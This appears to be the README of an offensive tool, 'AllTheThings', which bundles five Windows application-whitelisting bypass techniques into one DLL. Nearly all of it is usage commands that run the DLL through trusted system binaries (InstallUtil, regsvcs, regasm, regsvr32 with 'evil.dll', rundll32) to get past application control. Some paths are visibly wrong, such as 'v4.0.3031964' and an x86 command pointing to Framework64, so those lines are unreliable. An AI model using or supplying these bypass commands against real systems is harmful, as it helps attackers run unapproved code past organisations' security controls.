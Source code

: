 # AllTheThings

###Includes 5 Known Application Whitelisting/ Application Control Bypass Techiniques in One File.

###1. InstallUtil.exe

###2. Regasm.exe

###3. Regsvcs.exe

###4. regsvr32.exe

###5. rundll32.exe



#Usage:
##1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
##2. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
##3. 

    x86 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

##4. 

    regsvr32 /s  /u evil.dll -->Calls DllUnregisterServer

    regsvr32 /s evil.dll --> Calls DllRegisterServer
    
##5. 

    rundll32 AllTheThings.dll,EntryPoint
